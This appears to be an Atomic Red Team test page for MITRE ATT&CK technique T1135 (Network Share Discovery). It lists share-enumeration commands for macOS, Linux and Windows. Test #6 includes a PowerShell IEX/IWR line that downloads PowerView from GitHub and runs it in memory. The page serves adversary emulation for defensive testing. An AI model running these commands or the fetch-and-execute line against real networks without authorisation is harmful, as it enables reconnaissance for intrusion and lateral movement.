 # T1135 - Network Share Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1135)
<blockquote>Adversaries may look for folders and drives shared on remote systems as a means of identifying sources of information to gather as a precursor for Collection and to identify potential systems of interest for Lateral Movement. Networks often contain shared network drives and folders that enable users to access file directories on various systems across a network. 

File sharing over a Windows network occurs over the SMB protocol. (Citation: Wikipedia Shared Resource) (Citation: TechNet Shared Folder) [Net](https://attack.mitre.org/software/S0039) can be used to query a remote system for available shared drives using the <code>net view \\\\remotesystem</code> command. It can also be used to query shared drives on the local system using <code>net share</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Network Share Discovery](#atomic-test-1---network-share-discovery)

- [Atomic Test #2 - Network Share Discovery - linux](#atomic-test-2---network-share-discovery---linux)

- [Atomic Test #3 - Network Share Discovery command prompt](#atomic-test-3---network-share-discovery-command-prompt)

- [Atomic Test #4 - Network Share Discovery PowerShell](#atomic-test-4---network-share-discovery-powershell)

- [Atomic Test #5 - View available share drives](#atomic-test-5---view-available-share-drives)

- [Atomic Test #6 - Share Discovery with PowerView](#atomic-test-6---share-discovery-with-powerview)


<br/>

## Atomic Test #1 - Network Share Discovery
Network Share Discovery

**Supported Platforms:** macOS


**auto_generated_guid:** f94b5ad9-911c-4eff-9718-fd21899db4f7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | computer1|


#### Attack Commands: Run with `sh`! 


```sh
df -aH
smbutil view -g //#{computer_name}
showmount #{computer_name}
```






<br/>
<br/>

## Atomic Test #2 - Network Share Discovery - linux
Network Share Discovery using smbstatus

**Supported Platforms:** Linux


**auto_generated_guid:** 875805bc-9e86-4e87-be86-3a5527315cae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| package_checker | Package checking command. Debian - dpkg -s samba | string | rpm -q samba|
| package_installer | Package installer command. Debian - apt install samba | string | yum install -y samba|


#### Attack Commands: Run with `bash`! 


```bash
smbstatus --shares
```




#### Dependencies:  Run with `bash`!
##### Description: Package with smbstatus (samba) must exist on device
##### Check Prereq Commands:
```bash
if #{package_checker} > /dev/null; then exit 0; else exit 1; fi
```
##### Get Prereq Commands:
```bash
sudo #{package_installer}
```




<br/>
<br/>

## Atomic Test #3 - Network Share Discovery command prompt
Network Share Discovery utilizing the command prompt. The computer name variable may need to be modified to point to a different host
Upon execution avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows


**auto_generated_guid:** 20f1097d-81c1-405c-8380-32174d493bbb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net view \\#{computer_name}
```






<br/>
<br/>

## Atomic Test #4 - Network Share Discovery PowerShell
Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host
Upon execution, avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows


**auto_generated_guid:** 1b0814d1-bb24-402d-9615-1b20c50733fb






#### Attack Commands: Run with `powershell`! 


```powershell
get-smbshare
```






<br/>
<br/>

## Atomic Test #5 - View available share drives
View information about all of the resources that are shared on the local computer Upon execution, avalaible share drives will be displayed in the powershell session

**Supported Platforms:** Windows


**auto_generated_guid:** ab39a04f-0c93-4540-9ff2-83f862c385ae






#### Attack Commands: Run with `command_prompt`! 


```cmd
net share
```






<br/>
<br/>

## Atomic Test #6 - Share Discovery with PowerView
Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** b1636f0a-ba82-435c-b699-0d78794d8bfd






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```






<br/>
